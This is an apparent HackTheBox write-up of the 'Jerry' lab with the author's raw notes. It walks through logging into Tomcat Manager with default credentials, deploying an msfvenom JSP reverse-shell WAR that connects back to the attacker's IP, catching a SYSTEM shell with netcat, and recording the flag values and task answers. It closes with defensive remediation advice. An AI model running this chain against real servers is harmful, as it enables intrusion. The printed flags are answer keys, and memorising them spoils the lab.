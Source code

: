 # HTB Room Report — Jerry (10.10.10.95)

**Target IP:** `10.10.10.95`  
**Room:** Jerry (Windows, Tomcat) — Easy difficulty  
**Author:** [your name / handle]  
**Date:** 2025-09-13

---

## 1. Summary / Objective
This document records the offensive engagement against the HackTheBox machine **Jerry**. The goal was to enumerate services, identify an exploitation path, obtain an interactive shell, and capture both user and root flags. The primary vulnerability chain involved Apache Tomcat manager access (WAR upload) to deploy a JSP reverse shell that yielded an `NT AUTHORITY\SYSTEM` shell on the Windows host.

**Outcome:** Full system compromise achieved; `user.txt` and `root.txt` recovered.

---

## 2. Reconnaissance & initial enumeration
Tools used: `rustscan`, `zenmap` (Nmap GUI), a personal `speedscan.py`, `curl`, a browser, `msfconsole` for convenience during exploitation, and `msfvenom` for payload generation.

**Observed service:** HTTP on port **8080** serving Apache Tomcat.

Basic steps & observations:
- Confirmed the web service at `http://10.10.10.95:8080`.
- Found Tomcat Manager application at `/manager/html` which requires authentication.
- Default creds did not work, but the 401 Unauthorized message hinted that credentials are stored in `conf/tomcat-users.xml` and even provided an example of `tomcat:s3cret` as a typical manager credential. Inspection revealed `tomcat` / `s3cret` worked.

---

## 3. Vulnerability & attack path overview
1. **Tomcat manager GUI** allows WAR file uploads and deployment.  
2. **Obtain manager credentials**: tomcat:s3cret (from configuration hint/inspection).  
3. **Create JSP reverse shell WAR** using `msfvenom` with `java/jsp_shell_reverse_tcp` payload.  
4. **Deploy WAR** through Manager GUI to `http://10.10.10.95:8080/portmortem/` (example).  
5. **Listen for reverse connection** using `nc -lvnp 4445` and receive a Windows shell.  
6. **Privilege level:** The shell returned `NT AUTHORITY\SYSTEM` (full system privileges).  
7. **Enumerate filesystem** and retrieve flags from `C:\Users\Administrator\Desktop\flags\user.txt` and `root.txt`.

---

## 4. Reproducible commands & actions (red-team steps)

**Recon / discovery**
```bash
# quick TCP discovery (example)
rustscan -a 10.10.10.95 -r 1-65535
nmap -sV -p- 10.10.10.95
# or use zenmap GUI to visualize ports
```

**Check webapp**
```bash
# browse to the manager application
http://10.10.10.95:8080/manager/html
# use browser to view 401 page content for hints
```

**Generate WAR payload (on attacker machine)**
```bash
# create a JSP reverse shell WAR using msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4445 -f war > portmortem.war
# Expected output: Payload size and final war size printed
```

**Start listener (attacker machine)**
```bash
nc -lvnp 4445
# or use msfconsole multi/handler configured for java/jsp_shell_reverse_tcp
```

**Upload & deploy WAR**
- Log into Tomcat Manager with `tomcat:s3cret` at `/manager/html`.  
- Use the "Upload WAR" or "Deploy" UI to upload `portmortem.war`.  
- Browse to `http://10.10.10.95:8080/portmortem/` (or the context path shown by Manager) to trigger the JSP and spawn the reverse shell.

**On listener, accept connection**
```
listening on [any] 4445 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
whoami
nt authority\system
```

**Post-exploitation enumeration & flags**
```powershell
# from the SYSTEM shell
dir C:\Users\Administrator\Desktop\flags /s
type C:\Users\Administrator\Desktop\flags\user.txt
type C:\Users\Administrator\Desktop\flags\root.txt
```

---

## 5. Findings & evidence
- **Open TCP port:** `8080` (HTTP/Tomcat).  
- **Web server product:** Apache Tomcat.  
- **Manager path:** `/manager/html` (Tomcat Web Application Manager).  
- **Working credentials:** `tomcat:s3cret` (username:password).  
- **Uploadable file type via Manager:** `.war` (WAR archive).  
- **Privilege after exploitation:** `NT AUTHORITY\SYSTEM` (highest Windows privilege).

**Captured flags:**  
- `user.txt`: `7004dbcef0f854e0fb401875f26ebd00`  
- `root.txt`: `04a8b36e1545a455393d067e772fe90e`

---

## 6. Answers to room tasks (explicit)
1. **Which TCP port is open on the remote host?** `8080`  
2. **Which web server is running on the remote host?** `Apache Tomcat`  
3. **Which relative path leads to the Web Application Manager?** `/manager/html`  
4. **Valid username:password for Tomcat Manager?** `tomcat:s3cret`  
5. **Which file type can be uploaded and deployed via Manager?** `WAR file`  
6. **User flag (user.txt)** `7004dbcef0f854e0fb401875f26ebd00`  
7. **Administrator flag (root.txt)** `04a8b36e1545a455393d067e772fe90e`

---

## 7. Remediation & Blue Team recommendations
This lab demonstrates the impact of misconfigured or exposed management interfaces and the danger of file upload/deploy features. Suggested mitigations:

**Immediate / short-term:**
- Restrict access to Tomcat Manager via IP allowlists or network ACLs (only trusted admin IPs).  
- Change default or weak credentials; ensure unique, strong admin passwords.  
- Disable the manager application in production unless explicitly required.  
- Remove anonymous access and disable upload/deploy features if not needed.

**Medium-term / hardening:**
- Enforce TLS/HTTPS for Tomcat management interfaces and remote administration.  
- Apply least-privilege: run Tomcat service under a dedicated low-privilege account, and ensure deployed webapps cannot execute system-level commands.  
- Use web application firewalls (WAF) and monitoring to detect unusual deploy/upload activity.  
- Perform scheduled vulnerability scans and pentests to catch exposures such as manager GUIs and default credentials.

**Long-term / process:**
- Configuration management and secret rotation policies to avoid default creds shipping in images.  
- Asset inventory of admin panels and apply access control policies centrally.  
- Developer training on safe usage of deployment features and avoid storing sensitive files in webroots.

---

## 8. Lessons learned & notes
- Tomcat Manager WAR upload is a straightforward exploitation path when credentials are known or discoverable.  
- The 401 page content sometimes leaks configuration hints — pay attention to web app error messages.  
- Confirm management interfaces are not exposed to attacker networks.  
- Practice attacker techniques and defensive remediations in lab images to understand impact and mitigation.

---

## 9. Artifacts / evidence to store securely
- `portmortem.war` — generated payload WAR file (attacker artifact)  
- `msfvenom` output logs / creation notes  
- Listener logs (`nc` session capture) and shell transcript  
- Copy of `user.txt` and `root.txt` contents (store in evidence repo)  

---

*End of Jerry HTB writeup.*

---
orginial notes:
<details>
 Jerry is an easy-difficulty Windows machine that showcases how to exploit Apache Tomcat, leading to an `NT Authority\SYSTEM` shell, thus fully compromising the target. 
 
 ip = “10.10.10.95”
 
 learned that under htb if we enable it under perfences we can see udner retired machines the related classes we can take in teh academy to learn, neat!
 
 utlized rustscan, my personal speedscan.py, and zenmap
 
 we see that we can go to the site with adding 8080 on the url so 10.10.10.95:8080
 
 we started metasploit framework and saw a vuln, but let's explore the website first
 
 we have a manager app on the site that requests a username nad password. the default creds didn't work
 
 when we cancel the login get a 401 authorized error:
 
 we see that we aren't authorized to view this page, and we can view the conf/tomcat-users.xml to let us do what we need for updates
 
 we see that user might be tomcat, and password of s3cret
 
 bing, we're in!
 
 the info on the 401 error is:
    
401 Unauthorized
        You are not authorized to view this page. If you have not changed     any configuration files, please examine the file     conf/tomcat-users.xml in your installation. That     file must contain the credentials to let you use this webapp.    
        For example, to add the manager-gui role to a user named     tomcat with a password of s3cret, add the following to the     config file listed above.    
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
        Note that for Tomcat 7 onwards, the roles required to use the manager     application were changed from the single manager role to the     following four roles. You will need to assign the role(s) required for     the functionality you wish to access.    
          • manager-gui - allows access to the HTML GUI and the status          pages
      • manager-script - allows access to the text interface and the          status pages
      • manager-jmx - allows access to the JMX proxy and the status          pages
      • manager-status - allows access to the status pages only
    
        The HTML interface is protected against CSRF but the text and JMX interfaces     are not. To maintain the CSRF protection:    
       ◇ Users with the manager-gui role should not be granted either        the manager-script or manager-jmx roles.
    ◇ If the text or jmx interfaces are accessed through a browser (e.g. for        testing since these interfaces are intended for tools not humans) then        the browser must be closed afterwards to terminate the session.
   
        For more information - please see the     Manager App HOW-TO.    
 
 
 we can upload a war file, so let's do some digging
 
 fter doing google searches and enumeration , I came to know that we can 
upload WAR files and also we can create a msf payload using msfvenom in 
WAR format
 
 MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.

googing says to use this code: msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4445 -f war > portmortem.war

we get: 
Payload size: 1094 bytes
Final size of war file: 1094 bytes

chatgpt tells us what each part means to clarify:

msfvenom
Metasploitâ€™s payload generator/encoder/packer utility. It creates payloads (shells/backdoors/etc.) in many formats.

-p java/jsp_shell_reverse_tcp
-p selects the payload. java/jsp_shell_reverse_tcp is a JSP reverse TCP payload — it generates a JSP file packaged inside a WAR that, when executed by a Java web server (Tomcat/etc.), will cause the target host to open a TCP connection back to your machine and give you a command shell.

• LHOST=10.10.14.9
 The local host IP for the reverse connection — i.e., the attacker/listener IP that the target should connect back to. Set this to your attacking machine’s reachable IP (here 10.10.14.9).

• LPORT=4445
 The local port the target will connect to on your machine. You must have a listener on this port to receive the session.

• -f war
 The output format. war tells msfvenom to produce a Java WAR (Web ARchive) file. A WAR bundles web resources (including JSPs) and can be deployed to Java web servers.

• > portmortem.war
 Shell redirection: write the msfvenom output to a file named portmortem.war. (> overwrites if the file exists; use >> to append.)

when we go to it's a blank page, but what if we use nc(netcat?) http://10.10.10.95:8080/portmortem/

and we refeshed and got it!

└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>

whoami
nt authority\system

full access baby!
 
 chatgpt wasn't useful, btu we learned that we can use dir /s flags to find a file. The /s lists every occurenace
 
 we find one in: 
 Users/Administrator/Desktop/flags
 
 we find 2 for the price of 1.txt
 
 we get:
 
 user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e



 
 task 1: Which TCP port is open on the remote host?
8080

task 2: Which web server is running on the remote host? Looking for two words.
Apache Tomcat

task 3: Which relative path on the webserver leads to the Web Application Manager?
/manager/html

task 4: What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password
Tomcat / s3cret

task 5: Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?
WAR file

task6: Submit the flag located on the user's desktop.

task7: Submit the flag located on the administrator's desktop.
</details>
